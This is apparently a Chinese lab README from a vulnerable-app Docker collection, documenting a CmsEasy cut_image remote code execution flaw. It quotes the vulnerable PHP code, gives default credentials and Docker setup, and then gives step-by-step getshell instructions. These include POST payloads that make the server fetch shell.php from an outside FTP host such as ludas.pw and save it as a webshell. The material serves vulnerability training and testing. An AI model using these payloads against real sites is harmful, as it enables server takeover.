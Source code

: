 CmsEasy < 5.6_20161012 cut_image 代码执行漏洞
---

### 漏洞信息
CmsEasy是一款基于PHP+Mysql 架构的网站内容管理系统，也是一个PHP开发平台。采用模块化方式开发，功能易用便于扩展，可面向大中型站点提供重量级网站建设解决方案。攻击者可以在网站前台进行Getshell。

详细参考：[CmsEasy前台无限制GetShell](https://xianzhi.aliyun.com/forum/read/215.html)
#####漏洞相关代码

```
/*function cut_image_action() {
    $len = 1;
    if(config::get('base_url') != '/'){
        $len = strlen(config::get('base_url'))+1;
    }
    if(substr($_POST['pic'],0,4) == 'http'){
        front::$post['thumb'] = str_ireplace(config::get('site_url'),'',$_POST['pic']);
    }else{
        front::$post['thumb'] = substr($_POST['pic'],$len);
    }
    $thumb=new thumb();
    $thumb->set(front::$post['thumb'],'jpg');
    $img=$thumb->create_image($thumb->im,$_POST['w'],$_POST['h'],0,0,$_POST['x1'],$_POST['y1'],$_POST['x2'] -$_POST['x1'],$_POST['y2'$new_name=$new_name_gbk=str_replace('.','',Time::getMicrotime()).'.'.end(explode('.',$_POST['pic']));
    $save_file='upload/images/'.date('Ym').'/'.$new_name;
    @mkdir(dirname(ROOT.'/'.$save_file));
    ob_start();
    $thumb->out_image($img,null,85);
    file_put_contents(ROOT.'/'.$save_file,ob_get_contents());
    ob_end_clean();
    $image_url=config::get('base_url').'/'.$save_file;
    //$res['size']=ceil(strlen($img) / 1024);
    $res['code']="
                    //$('#cut_preview').attr('src','$image_url');
                    $('#thumb').val('$image_url');
                    alert(lang('save_success'));
    ";
    echo json::encode($res);
}
*/
```

### 镜像信息
类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/admin/ | admin | admin888

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:c_cmseay_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:c_cmseay_1
```
  > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用
访问 `http://你的 IP 地址:端口号/`

### PoC 使用

1.特殊图片处理

>解压payload.zip，使用shell.jpg或者jpg_payload自行生成可以过gd处理的图片
>使用方法 php jpg_payload.php new.jpg 会在运行目录下生成payload_new.jpg

2.部署远程环境
>将shell.jpg上传至FTP服务器并将后缀改为php

3.获取webshell

>`http://你的 IP 地址:端口号`/index.php?case=tool&act=cut_image
post data:
pic=1ftp://`FTP地址`/shell.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120

```
相关参数说明
w=x2=图片宽度
h=y2=图片高度
x1=y1=固定0

如果$_POST['pic']开头4个字符不是http的话，就认为是本站的文件，会从前面抽取掉baseurl（等于返回文件相对路径）所以构造的时候 如果站点不是放在根目录 则需要在前面补位strlen(base_url)+2 如果放在根目录 也需要补上1位（'/'的长度）
```


>举个栗子：

>目标站 `http://www.target.com/easy/cmseasy`放在easy子目录,就需要补上strlen(base_url)+2 = strlen('easy')+2=6位post数据就是
>`pic=111111ftp://ludas.pw/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146`

>目标站` http://www.target2.com/cmseasy`放在web根目录 就需要补上1位post数据就是
>pic=`1ftp://ludas.pw/shell.php`&w=228&h=146&x1=0&x2=228&y1=0&y2=146


成功会返回
>{"code":"\r\n \/\/$('#cut_preview').attr('src','\/upload\/images\/201612\/148159258747.php');\r\n $('#thumb').val('\/upload\/images\/201612\/148159258747.php');\r\n\t\t\t\t alert(lang('save_success'));\r\n "}

拼接URL构造shell地址
>`http://你的 IP 地址:端口号`/upload/images/201612/148159258747.php

